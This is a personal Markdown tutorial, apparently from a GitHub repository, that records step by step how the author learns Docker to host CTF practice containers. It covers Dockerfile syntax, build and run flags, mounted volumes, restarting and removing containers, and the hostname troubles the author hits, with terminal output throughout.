










# DOCKER

## WHAT IS DOCKER?
Why explain things here?  These are a couple links if you need to know more:
<br>
[GitHub Get-starte Page](https://docs.docker.com/get-started/) - the basics
<br>
[CTF creation article](https://cryptokait.com/2020/08/17/containerizing-your-ctf-stack-using-docker-for-ctfs-and-ncl/) - more of the basics explained
<br>
More links will be given throughout this learning experience...
<hr>

## QUICK REFERENCE COMMANDS

After creating a dockerfile, you can build it using this:
```
sudo docker build . -t name-of-build
```
After the build, you can run it using this (ports explained in the links above):
```
sudo docker run -p 8000:80 -d name-of-build:latest
```
Also some flags learned throughout this experience:
```
sudo docker run -p 8005:80 --hostname=ctfprac --name=apachetpz -d ctfpractice
```
And a simple stopping of the contanier using the name:
```
sudo docker stop apachetpz
```
To get a shell into the container:
```
sudo docker exec -it apachetpz /bin/bash
```

<hr>

<br>

## BUILDING A DOCKERFILE
this is an exerpt from the article above for quick reference:
<br><br>

```
FROM kalilinux/kali-rolling  
 
RUN apt-get update && apt-get upgrade -y
RUN apt-get install -y nmap john dirb
 
VOLUME /wordlists
VOLUME /ctf
```

<br>
I created a basic ubuntu container to test this process...
<br><br>

```
FROM ubuntu/latest

RUN apt-get update && apt-get upgrade -y
RUN apt-get install -y net-tools nmap vim

VOLUME /wordlists
VOLUME /ctf

CMD ifconfig
```

<br>
Of course... I got an error when I built it because of the syntax... 
<br>

```
@ubuntu:~/Docker/ctfpractice$ sudo docker build . -t ubuntuctfpractice
Sending build context to Docker daemon  2.048kB
Step 1/6 : FROM ubuntu/latest
pull access denied for ubuntu/latest, repository does not exist or may require 'docker login': denied: requested access to the resource is denied
```

The first line requires a colon and not a forward slash
<br>

```
FROM ubuntu:latest
```

<br>

And now it worked...

```
@ubuntu:~/Docker/ctfpractice$ sudo docker build . -t ubuntuctfpractice
Sending build context to Docker daemon  2.048kB
Step 1/6 : FROM ubuntu:latest
 ---> ba6acccedd29
Step 2/6 : RUN apt-get update && apt-get upgrade -y
 ---> Running in 3a3451583f9b
```

<br>
However, it didn't do what I thought it was going to do with the ifconfig command
<br>

```
Step 6/6 : CMD ifconfig
 ---> Running in bfb3ff4681dd
```

<br><br>
no output... I won't see the results of this command until I run the container...
<br><br>

```
@ubuntu:~/Docker/ctfpractice$ sudo docker run ubuntuctfpractice
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.17.0.2  netmask 255.255.0.0  broadcast 172.17.255.255
        ether 02:42:ac:11:00:02  txqueuelen 0  (Ethernet)
        RX packets 2  bytes 220 (220.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 0  bytes 0 (0.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 0  bytes 0 (0.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 0  bytes 0 (0.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

<br>
<br>
And the docker exits after running that command... if I do a docker ps command, it's gone

```
@ubuntu:~/Docker/ctfpractice$ sudo docker ps
CONTAINER ID   IMAGE     COMMAND   CREATED   STATUS    PORTS     NAMES
```

<br><br>
this is simply becaue if there is no process running in the container, it will exit
<br>
this can be solved (if actually needed) by adding a sleep command to the container
<br>
when I build out the challenge, there will be processes running, so I won't have to worry about that
<br>
but for now, I'll use it to learn a bit more about the basic commands...
<br><br>

```
@ubuntu:~/Docker/ctfpractice$ sudo docker run -d ubuntuctfpractice sleep infinity
5092ed449b837939dfffc7509c1dfeb2935a1467464d7f37a28cb60a9ed9f256

ubuntu:~/Docker/ctfpractice$ sudo docker ps
CONTAINER ID   IMAGE               COMMAND            CREATED         STATUS         PORTS     NAMES
5092ed449b83   ubuntuctfpractice   "sleep infinity"   3 seconds ago   Up 2 seconds             ecstatic_mclean
```

<br><br>
Lastly... you can give it your own name instead of getting a random one (shown under NAME)
<br>
simply add the name tag to the run command... this will help you organize
<br><br>

```
@ubuntu:~/Docker/ctfpractice$ sudo docker run --name=ubuntuctfpractice -d ubuntuctfpractice sleep infinity
bbb364cb8169e67f7d3d645106e37317a7068bc74bde214fa54c53883c9547c7

@ubuntu:~/Docker/ctfpractice$ sudo docker ps
CONTAINER ID   IMAGE               COMMAND            CREATED         STATUS         PORTS     NAMES
bbb364cb8169   ubuntuctfpractice   "sleep infinity"   5 seconds ago   Up 4 seconds             ubuntuctfpractice
```

<br>
and now you can reference the NAME (ubuntuctfpractice) to manage the container
<br><br>
Much of this can be found here:
<br><br>

[Docker Docs](https://docs.docker.com/engine/reference/run/) - reference for run command

<hr>

## FILE MANAGEMENT WITHIN CONTAINERS
<br>
Now that we have everything set, it's time to start placing files in the container
<br>
the container above had a /wordlist and /ctf folder added.  They can be seen through an interactive terminal
<br>

```
@ubuntu:~/Docker/ctfpractice$ sudo docker exec -it ubuntuctfpractice /bin/bash
root@bbb364cb8169:/# ls
bin  boot  ctf  dev  etc  home  lib  lib32  lib64  libx32  media  mnt  opt  proc  root  run  sbin  srv  sys  tmp  usr  var  wordlists
root@bbb364cb8169:/# ls wordlists/
root@bbb364cb8169:/# ls ctf/
```

<br><br>
Now I'm going to change those volumes to be in the temp folder and put files in there...
<br><br>

From the dockerfile
```
VOLUME /tmp/wordlists
VOLUME /tmp/ctf
```

<br><br>
I added a couple of text files into the new directories on my host machine that I will be mounting (-v command below)

```
@ubuntu:/tmp$ mkdir ctfpractice
@ubuntu:/tmp$ cd ctfpractice/
@ubuntu:/tmp/ctfpractice$ pwd
/tmp/ctfpractice
@ubuntu:/tmp/ctfpractice$ mkdir wordlist
@ubuntu:/tmp/ctfpractice$ mkdir ctf
@ubuntu:/tmp/ctfpractice$ touch wordlist/testwordlist.txt
@ubuntu:/tmp/ctfpractice$ touch ctf/testctf.txt
```

<br><br>

The build was REALY fast...

```
ubuntu:~/Docker/ctfpractice$ sudo docker build . -t ctfpractice
[sudo] password for admin: 
Sending build context to Docker daemon  4.096kB
Step 1/6 : FROM ubuntu:latest
 ---> ba6acccedd29
Step 2/6 : RUN apt-get update && apt-get upgrade -y
 ---> Using cache
 ---> 8eb57112853f
Step 3/6 : RUN apt-get install -y net-tools nmap vim
 ---> Using cache
 ---> 0ee44e9645ba
Step 4/6 : VOLUME /tmp/wordlists
 ---> Running in 7c9b23c5137b
Removing intermediate container 7c9b23c5137b
 ---> abcd7f9771f0
Step 5/6 : VOLUME /tmp/ctf
 ---> Running in 492035e71fb2
Removing intermediate container 492035e71fb2
 ---> ff601f59a595
Step 6/6 : CMD ifconfig
 ---> Running in 3791920cb1ca
Removing intermediate container 3791920cb1ca
 ---> 944741c9f63c
Successfully built 944741c9f63c
Successfully tagged ctfpractice:latest
```

```
@ubuntu:~/Docker/ctfpractice$ sudo docker run -d --name=ctfpractice -v /tmp/ctfpractice/wordlist:/tmp/wordlist:rw -v /tmp/ctfpractice/ctf:/tmp/ctf:rw ctfpractice sleep infinity
```

<br><br>
... and discovered by accident through a syntax error... I don't need the volumes in the docker file
<br>
reference that there are three directories in /tmp, and one is plural by accident
<br><br>

```
@ubuntu:~/Docker/ctfpractice$ sudo docker run -d --name=ctfpractice -v /tmp/ctfpractice/wordlist:/tmp/wordlist:rw -v /tmp/ctfpractice/ctf:/tmp/ctf:rw ctfpractice sleep infinity
020d03be8359411de04a5f76d8bd1e87a4d09db79f279f8ca86492804c80283a

@ubuntu:~/Docker/ctfpractice$ sudo docker ps
CONTAINER ID   IMAGE         COMMAND            CREATED         STATUS         PORTS     NAMES
020d03be8359   ctfpractice   "sleep infinity"   7 seconds ago   Up 6 seconds             ctfpractice

@ubuntu:~/Docker/ctfpractice$ sudo docker exec -it ctfpractice /bin/bash
root@020d03be8359:/# ls
bin  boot  dev  etc  home  lib  lib32  lib64  libx32  media  mnt  opt  proc  root  run  sbin  srv  sys  tmp  usr  var
root@020d03be8359:/# cd tmp/
root@020d03be8359:/tmp# ls
ctf  wordlist  wordlists
root@020d03be8359:/tmp# ls wordlist
testwordlist.txt
root@020d03be8359:/tmp# ls ctf/
testctf.txt
root@020d03be8359:/tmp#
```

<br><br>
and now it can be seen that I can write to that directory (because of the :rw) on the host

```
root@020d03be8359:/tmp/ctf# ls
testctf.txt
root@020d03be8359:/tmp/ctf# touch withinthecontainer.txt
root@020d03be8359:/tmp/ctf# ls
testctf.txt  withinthecontainer.txt

@ubuntu:/tmp/ctfpractice/ctf$ ls
testctf.txt  withinthecontainer.txt
```

<br><br>
Now that I have the basics figured out... I can move to building a container for apache2 in ubuntu
<br><br>

[Docker Docs](https://docs.docker.com/storage/volumes/) - Reference for volumes

<hr>

## EXTRA LEARNING FOR DOCKER WORKINGS
### NOTE:  container stopped but can't be run again with the same command
<br><br>

```
@ubuntu:~/Docker/ctfpractice$ sudo docker run -d --name=ctfpractice -v /tmp/ctfpractice/wordlist:/tmp/wordlist:rw -v /tmp/ctfpractice/ctf:/tmp/ctf:rw ctfpractice sleep infinity
docker: Error response from daemon: Conflict. The container name "/ctfpractice" is already in use by container "020d03be8359411de04a5f76d8bd1e87a4d09db79f279f8ca86492804c80283a". You have to remove (or rename) that container to be able to reuse that name.
See 'docker run --help'.
```

<br><br>
Always fun to figure things out by mistake... 
<br>
since the container was built and run, all I have to do now is start it again
<br>
as you can see, I just tried the commands without the flags, then figured out to simply start it.
<br><br>

```
@ubuntu:~/Docker/ctfpractice$ sudo docker ps -a
CONTAINER ID   IMAGE               COMMAND                  CREATED             STATUS                           PORTS     NAMES
020d03be8359   ctfpractice         "sleep infinity"         25 minutes ago      Exited (137) 6 minutes ago                 ctfpractice
bbb364cb8169   ubuntuctfpractice   "sleep infinity"         About an hour ago   Exited (137) 35 minutes ago                ubuntuctfpractice
5092ed449b83   ubuntuctfpractice   "sleep infinity"         About an hour ago   Exited (137) About an hour ago             ecstatic_mclean
647cb8e9e48a   ubuntuctfpractice   "/bin/sh -c ifconfig"    About an hour ago   Exited (0) About an hour ago               eager_sanderson
5e42db3c2d35   ubuntuctfpractice   "/bin/sh -c ifconfig"    About an hour ago   Exited (0) About an hour ago               admiring_easley
accdbe9028ea   ubuntuctfpractice   "/bin/sh -c ifconfig"    2 hours ago         Exited (0) 2 hours ago                     confident_thompson
bd5d9ad1bfbd   ubuntudocker        "/bin/sh -c '/usr/sb…"   20 hours ago        Exited (137) 20 hours ago                  hopeful_moser
4d32a663871e   wordpress           "docker-entrypoint.s…"   20 hours ago        Created                                    some-wordpress
cfc2f0b85293   webexample          "/bin/sh -c '/usr/sb…"   27 hours ago        Exited (137) 21 hours ago                  clever_driscoll

@ubuntu:~/Docker/ctfpractice$ sudo docker start -d --name=ctfpractice -v /tmp/ctfpractice/wordlist:/tmp/wordlist:rw -v /tmp/ctfpractice/ctf:/tmp/ctf:rw ctfpractice sleep infinity
unknown shorthand flag: 'd' in -d
See 'docker start --help'.

@ubuntu:~/Docker/ctfpractice$ sudo docker ps
CONTAINER ID   IMAGE     COMMAND   CREATED   STATUS    PORTS     NAMES

@ubuntu:~/Docker/ctfpractice$ sudo docker start --name=ctfpractice -v /tmp/ctfpractice/wordlist:/tmp/wordlist:rw -v /tmp/ctfpractice/ctf:/tmp/ctf:rw ctfpractice sleep infinity
unknown flag: --name
See 'docker start --help'.

@ubuntu:~/Docker/ctfpractice$ sudo docker start ctfpractice
ctfpractice

@ubuntu:~/Docker/ctfpractice$ sudo docker ps
CONTAINER ID   IMAGE         COMMAND            CREATED          STATUS         PORTS     NAMES
020d03be8359   ctfpractice   "sleep infinity"   26 minutes ago   Up 4 seconds             ctfpractice
```

<hr>

## DO THINGS WITH THE CONTAINER...
It's time to build out a simple web server.  I'm going to use apache2 on ubunu <br>
[Web Server Build](https://github.com/fitzitsolutions/FITStutorials/blob/main/files/Ubuntu_Server_Build/Ubuntu_Server_Creation.md) - I'll use my own reference to build a web server container.
<br><br>

The first thing I did was try to change the hostname <br>
the command hostnamectl wasn't available, so I tried to install systemd to get it<br>
in doing this, I see that tzdata stops the installation by asking for the regional information (this changes your date) <br>

```
Configuring tzdata
------------------

Please select the geographic area in which you live. Subsequent configuration questions will narrow this down by presenting a list of cities, representing the
time zones in which they are located.

  1. Africa  2. America  3. Antarctica  4. Australia  5. Arctic  6. Asia  7. Atlantic  8. Europe  9. Indian  10. Pacific  11. SystemV  12. US  13. Etc
Geographic area: 12

Please select the city or region corresponding to your time zone.

  1. Alaska  2. Aleutian  3. Arizona  4. Central  5. Eastern  6. Hawaii  7. Indiana-Starke  8. Michigan  9. Mountain  10. Pacific  11. Samoa
Time zone: 10

```

<br>

After installing systemd within the container and doing a restart of the container, I get this:
<br><br>

```
root@020d03be8359:/# hostnamectl set-hostname ctfpractice.the-petting-zoo.com
System has not been booted with systemd as init system (PID 1). Can't operate.
Failed to create bus connection: Host is down
```

### EASY ANSER TO THIS CONUNDRUM
this is a system command and shouldn't be run within a container

### But what if I still wanted to change the hostname?
the -h flag should change the hostname when running the container... but doing that gives multiple instances of the container
<br><br>

```
@ubuntu:~/Docker/ctfpractice$ sudo docker run -h ctfpractice.the-petting-zoo.com ctfpractice

@ubuntu:~/Docker/ctfpractice$ sudo docker ps -a
CONTAINER ID   IMAGE               COMMAND                  CREATED          STATUS                            PORTS     NAMES
d62d97cee747   ctfpractice         "/bin/sh -c ifconfig"    3 minutes ago    Exited (0) 3 minutes ago                    frosty_wilbur
020d03be8359   ctfpractice         "sleep infinity"         53 minutes ago   Exited (137) About a minute ago             ctfpractice
```

<br><br>
I'm still thinking like a VM admin... not a docker admin.<br>
Do it all with the build, not after the container exists!<br>
...so with that out of the way, let's move on.

<hr>

## EXTRA LEARNING FOR DOCKER WORKINGS
### NOTE:  volumes were created with my previous commands.
<br><br>
Reference:

```
-v /tmp/ctfpractice/wordlist:/tmp/wordlist:rw -v /tmp/ctfpractice/ctf:/tmp/ctf:rw
```

<br>
List the volumes with the docker volume ls command
<br>

```
@ubuntu:~/Docker/ctfpractice$ sudo docker volume ls
DRIVER    VOLUME NAME
local     0bfed272493af3c73cbdc39114cd38e5d15bdc2dda9ae81e94d20cf55d89f57b
local     3ff7d81783cebab753d939058fb603571c75f098a51adb3e6edaf97b4a2ec6f3
local     4c7a99845d6daccc6bfcf2de53c3e04b2a4f74cf1f686d43a2b21d53e0be2610
local     24a5bda0dec6c0eae93743eb8c3f5f526f250ebbcbc7a1634e7c20b20035a9ad
local     43cca820c95f5d991b2b5985bb5b58de43970957c8cf93863b906786039ab2a1
local     51b95f241fbb05d2828f40af8a0df22cf68990abb8c4d4b164a4968e0d280645
local     59fb9b92471fcad577f5a88d8effa9b8cfdd370247847f7744bf874c9aa1a8f5
local     894de2554f15b550069ebbac9ac9b2efdb1c2fbfad3ff747938c65514b06678f
local     6900d91c609bb9f198f09737d0f04efab59227e505b2e24c904668e6b510dc10
local     583064f664d33dede9c0c744b294d3ac61842e75055dc454eb6d0dd0988c1d21
local     607700e69278dc42be9fbcf274b5160c572186a9267818c116dbf3b735f05e1c
local     88691349b0eb09ac05cd81b2b69335703f356692eb3be24d3c72b1822de3c688
local     b5834fa8416862af656e9192615b743db7cf3f4781a0044c682b2f8308e8a9e8
local     c91aa53a910bf26b3838b1c455c1699e3bc36a4f23af5a5ab832ad9b32f95bb3
```

<br>
I can use docker volume prune to remove any unused volumes, <br>
and docker volume rm to remove used ones. <br>>
...but at this point, I'm wondering how the used ones are attached to containers.<br>
it would seem that if a container was built and run, the volume is associated with that container. <br>
...makes sense, if I need the container, I need the volume that's supposed to be in it.<br>
for this learning experience, I'll simply delete the container, and see what's left, then purge.
<br><br>

[Docker Docs](https://docs.docker.com/engine/reference/commandline/image_rm/) - Remove images
[Docker Docs](https://docs.docker.com/engine/reference/commandline/rm/) - Remove containers
[Docker Docs](https://docs.docker.com/engine/reference/commandline/volume_ls/) - Remove Volumes

<hr>

## REBUILD WITH WHAT I'VE LEARNED SO FAR
so now it's time to simply rebuild and see what I've learned.<br>
I want to rebuild the container with apache2 now installed and run it with a new hostname...<br>
<br>

First, I'm going to check out the images I have so far, and the history behind the ctfpractice image <br>
NOTE:  there are various ones listed from other projects. <br>

```
@ubuntu:~/Docker/ctfpractice$ sudo docker image ls
REPOSITORY          TAG       IMAGE ID       CREATED        SIZE
ctfpractice         latest    944741c9f63c   2 hours ago    200MB
ubuntuctfpractice   latest    4c9a5492d0e6   3 hours ago    200MB
webexample          latest    ed4d2cebf439   28 hours ago   210MB
ubuntudocker        latest    ed4d2cebf439   28 hours ago   210MB
wordpress           latest    c3c92cc3dcb1   4 days ago     616MB
mysql               5.7       c20987f18b13   5 days ago     448MB
ubuntu              latest    ba6acccedd29   2 months ago   72.8MB

@ubuntu:~/Docker/ctfpractice$ sudo docker image history ctfpractice
IMAGE          CREATED        CREATED BY                                      SIZE      COMMENT
944741c9f63c   2 hours ago    /bin/sh -c #(nop)  CMD ["/bin/sh" "-c" "ifco…   0B        
ff601f59a595   2 hours ago    /bin/sh -c #(nop)  VOLUME [/tmp/ctf]            0B        
abcd7f9771f0   2 hours ago    /bin/sh -c #(nop)  VOLUME [/tmp/wordlists]      0B        
0ee44e9645ba   3 hours ago    /bin/sh -c apt-get install -y net-tools nmap…   94.5MB    
8eb57112853f   3 hours ago    /bin/sh -c apt-get update && apt-get upgrade…   33.1MB    
ba6acccedd29   2 months ago   /bin/sh -c #(nop)  CMD ["bash"]                 0B        
<missing>      2 months ago   /bin/sh -c #(nop) ADD file:5d68d27cc15a80653…   72.8MB
```

<br><br>
While I do this, I figure I'll take a look at the host's hard drive space... because why not?
<br>

```
@ubuntu:~/Docker/ctfpractice$ sudo df -h
Filesystem      Size  Used Avail Use% Mounted on
/dev/sda5        98G   54G   39G  58% /
```

<br>
And now to delete some images...
<br>

```
@ubuntu:~/Docker/ctfpractice$ sudo docker image ls
REPOSITORY          TAG       IMAGE ID       CREATED        SIZE
ctfpractice         latest    944741c9f63c   2 hours ago    200MB
ubuntuctfpractice   latest    4c9a5492d0e6   3 hours ago    200MB
ubuntudocker        latest    ed4d2cebf439   28 hours ago   210MB
webexample          latest    ed4d2cebf439   28 hours ago   210MB
wordpress           latest    c3c92cc3dcb1   4 days ago     616MB
mysql               5.7       c20987f18b13   5 days ago     448MB
ubuntu              latest    ba6acccedd29   2 months ago   72.8MB

@ubuntu:~/Docker/ctfpractice$ sudo docker image rm ctfpractice
Error response from daemon: conflict: unable to remove repository reference "ctfpractice" (must force) - container 020d03be8359 is using its referenced image 944741c9f63c

@ubuntu:~/Docker/ctfpractice$ sudo docker ps -a
CONTAINER ID   IMAGE               COMMAND                  CREATED             STATUS                           PORTS     NAMES
d62d97cee747   ctfpractice         "/bin/sh -c ifconfig"    About an hour ago   Exited (0) About an hour ago               frosty_wilbur
020d03be8359   ctfpractice         "sleep infinity"         2 hours ago         Exited (137) About an hour ago             ctfpractice
```

<br>
Here you can see that there's a container that's using the image I was trying to delete.<br>
Even though it's not running, it's still referenced... so I will try to delete the container.<br>
<br>

```
@ubuntu:~/Docker/ctfpractice$ sudo docker rm 020d03be8359
020d03be8359

@ubuntu:~/Docker/ctfpractice$ sudo docker ps -a
CONTAINER ID   IMAGE               COMMAND                  CREATED             STATUS                         PORTS     NAMES
d62d97cee747   ctfpractice         "/bin/sh -c ifconfig"    About an hour ago   Exited (0) About an hour ago             frosty_wilbur

